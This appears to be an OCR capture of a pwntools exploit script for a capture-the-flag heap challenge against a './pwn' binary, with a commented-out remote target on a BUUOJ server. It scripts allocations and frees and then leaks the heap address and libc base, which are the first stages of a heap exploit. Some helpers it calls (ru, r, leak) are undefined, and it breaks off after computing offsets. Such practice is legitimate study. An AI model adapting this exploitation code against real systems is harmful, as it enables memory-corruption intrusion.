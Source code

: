 ```bash
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def duan():
    gdb.attach(p)
    pause()

def add(size,content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('a')
    p.recvuntil('(SIZE)>>> ')
    p.sendline(str(size))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)

def delete(index):
    p.recvuntil('(CMD)>>> ')
    p.sendline('d')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(index))

def edit(index,content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('e')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(index))
    p.recvuntil('CONTENT: ')
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)
    p.recvuntil('(Y/n)>>> ')
    p.sendline('y')

add(0xe0, "A"*0xe0)
add(0xf0, "B"*0xf0)
add(0x100, "C"*0x100)
add(0x100, "D"*0x100)
delete(3)
delete(1)
#duan()

ru('INDEX: 1\n')
ru('# CONTENT: ')
k=u64(r(8))
heap_addr=k&0x0000000000ffffff-0x1f0
#heap_addr=u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
leak('heap_addr',heap_addr)
ru('INDEX: 3\n')
ru('# CONTENT: ')
libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x3c4b78
leak('libc_base',libc_base)

chunk_list_addr=0x602040
chunk2_addr=heap_addr+0xf0
offset=chunk2_addr-chunk_list_addr
leak('chunk_list_addr >> ',chunk_list_addr)
leak('chunk2_addr >> ',chunk2_addr)
```